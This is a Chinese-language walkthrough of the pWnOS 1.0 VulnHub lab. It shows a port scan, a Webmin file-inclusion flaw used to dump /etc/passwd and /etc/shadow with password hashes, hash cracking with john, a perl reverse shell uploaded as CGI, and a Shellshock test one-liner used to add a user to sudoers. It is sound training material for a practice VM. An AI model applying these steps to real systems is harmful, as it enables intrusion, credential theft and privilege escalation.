








# PWNOS：1.0

下载地址：https://download.vulnhub.com/pwnos/pWnOS_v1.0.zip

> 需点击移动虚拟机，不然网络获取不到IP地址

## 实战操作

扫描到靶场IP地址：`192.168.2.129`



扫描对外端口

```
┌──(root💀kali)-[~/Desktop]
└─# nmap  -sT -sV  -p1-65535 192.168.2.129                                                                                                                                                                                             
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-08 07:35 EDT
Nmap scan report for 192.168.2.129
Host is up (0.0027s latency).
Not shown: 65530 closed tcp ports (conn-refused)
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 4.6p1 Debian 5build1 (protocol 2.0)
80/tcp    open  http        Apache httpd 2.2.4 ((Ubuntu) PHP/5.2.3-1ubuntu6)
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: MSHOME)
445/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: MSHOME)
10000/tcp open  http        MiniServ 0.01 (Webmin httpd)
MAC Address: 00:0C:29:5E:18:C9 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 57.79 seconds

```

现在转到端口 80 上的 Web 服务，该页面向我显示一条消息，说明"欢迎来到 pWnOS 主页！" 以及一个下一步按钮，可将我引导至根据您的技能水平提供提示的页面。



爆破WEB目录



找到phpmyadmin，没啥用。



文件包含漏洞

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
dhcp:x:100:101::/nonexistent:/bin/false
syslog:x:101:102::/home/syslog:/bin/false
klog:x:102:103::/home/klog:/bin/false
mysql:x:103:107:MySQL Server,,,:/var/lib/mysql:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
vmware:x:1000:1000:vmware,,,:/home/vmware:/bin/bash
obama:x:1001:1001::/home/obama:/bin/bash
osama:x:1002:1002::/home/osama:/bin/bash
yomama:x:1003:1003::/home/yomama:/bin/bash
```



webmin有个文件包含的漏洞

```
root:$1$LKrO9Q3N$EBgJhPZFHiKXtK0QRqeSm/:14041:0:99999:7:::
daemon:*:14040:0:99999:7:::
bin:*:14040:0:99999:7:::
sys:*:14040:0:99999:7:::
sync:*:14040:0:99999:7:::
games:*:14040:0:99999:7:::
man:*:14040:0:99999:7:::
lp:*:14040:0:99999:7:::
mail:*:14040:0:99999:7:::
news:*:14040:0:99999:7:::
uucp:*:14040:0:99999:7:::
proxy:*:14040:0:99999:7:::
www-data:*:14040:0:99999:7:::
backup:*:14040:0:99999:7:::
list:*:14040:0:99999:7:::
irc:*:14040:0:99999:7:::
gnats:*:14040:0:99999:7:::
nobody:*:14040:0:99999:7:::
dhcp:!:14040:0:99999:7:::
syslog:!:14040:0:99999:7:::
klog:!:14040:0:99999:7:::
mysql:!:14040:0:99999:7:::
sshd:!:14040:0:99999:7:::
vmware:$1$7nwi9F/D$AkdCcO2UfsCOM0IC8BYBb/:14042:0:99999:7:::
obama:$1$hvDHcCfx$pj78hUduionhij9q9JrtA0:14041:0:99999:7:::
osama:$1$Kqiv9qBp$eJg2uGCrOHoXGq0h5ehwe.:14041:0:99999:7:::
yomama:$1$tI4FJ.kP$wgDmweY9SAzJZYqW76oDA.:14041:0:99999:7:::
```



**john 使用rockyou.txt** wordlist花了大约 10 分钟返回用户**`vmware`**，密码**`h4ckm3`**

```
unshadow passwd.txt shadow.txt > pwnos-pass.txt
```

回想一下 Webmin 以及我如何能够获取它必须以提升的权限运行的影子文件，所以为了验证我检查了**var**目录并且我的怀疑是正确的，Web 应用程序以 root 身份运行！

```
vmware@ubuntuvm:~$ ls -lah /var/
total 52K
drwxr-xr-x 15 root root  4.0K 2008-06-10 13:28 .
drwxr-xr-x 21 root root  4.0K 2008-06-10 06:37 ..
drwxr-xr-x  2 root root  4.0K 2008-06-10 06:28 backups
drwxr-xr-x  9 root root  4.0K 2008-06-10 07:07 cache
drwxr-xr-x 23 root root  4.0K 2008-06-10 07:08 lib
drwxrwsr-x  2 root staff 4.0K 2007-10-08 05:47 local
drwxrwxrwt  3 root root    60 2017-05-18 16:17 lock
drwxr-xr-x 11 root root  4.0K 2017-05-18 16:17 log
drwxrwsr-x  2 root mail  4.0K 2008-06-10 06:24 mail
drwxr-xr-x  2 root root  4.0K 2008-06-10 06:24 opt
drwxr-xr-x 11 root root   400 2017-05-18 18:28 run
drwxr-xr-x  5 root root  4.0K 2008-06-10 07:07 spool
drwxrwxrwt  2 root root  4.0K 2007-10-08 05:47 tmp
drwx------  2 root bin   4.0K 2008-06-10 13:31 webmin
drwxr-xr-x  3 root root  4.0K 2008-06-12 09:55 www

```

### CGI提权

所以现在我知道 Webmin 以**root**身份运行，我只需要找到一个可以写入的位置并使用文件包含来调用该文件。回顾 Webmin 上的源代码，我注意到它使用的是 .CGI。这样做研究我发现。[CGI](https://users.cs.cf.ac.uk/Dave.Marshall/PERL/node188.html#SECTION002012000000000000000)使用 [perl]( [perl](http://whatis.techtarget.com/fileformat/CGI-Common-gateway-interface-script)、 C# 或 unix 脚本。所以我导航到 /usr/share/webshells/perl 目录并复制 perl 反向 shell，将 ip 和端口更改为 443，以及 pl 的扩展名到 .cgi。使用 wget 将其发送到 Web 服务器。

```
cp /usr/share/webshells/perl/perl-reverse-shell.pl mine.cgi
```



### 破壳shell提权

在查看 ubuntu 的版本时，它已经过时了，这让我认为它可能容易受到[shellshock](https://en.wikipedia.org/wiki/Shellshock_(software_bug)#CVE-2014-7186_and_CVE-2014-7187_Details)的攻击。所以测试了bash环境变量，我的理论是正确的。

```
vmware@ubuntuvm:/tmp$ env X='() { :; }; echo "CVE-2014-6271 vulnerable"' bash -c date
CVE-2014-6271 vulnerable
Wed Jun  8 07:08:48 CDT 2022
```

**因此，我在/tmp**目录中创建了一个扩展名为 .CGI 的快速 bash 脚本。

```
#!/bin/bash
print "Content-type: text/HMTL\n\n";
print "<HTML>\n";
print "<head><title>HEllo World!</title></head>\n";
print "<BODY>\n";
print "<h2>Hello World!</h2>\n";
```

我再次使用 Webmin 文件包含来调用我在 tmp 目录中创建的文件，并使用我在用户代理中使用 [shellshock的](https://en.wikipedia.org/wiki/Shellshock_(software_bug)#CVE-2014-7186_and_CVE-2014-7187_Details)[篡改数据将](https://addons.mozilla.org/en-US/firefox/addon/tamper-data/)**vmware**添加到**/etc/sudoers**文件。



然后直接`su root`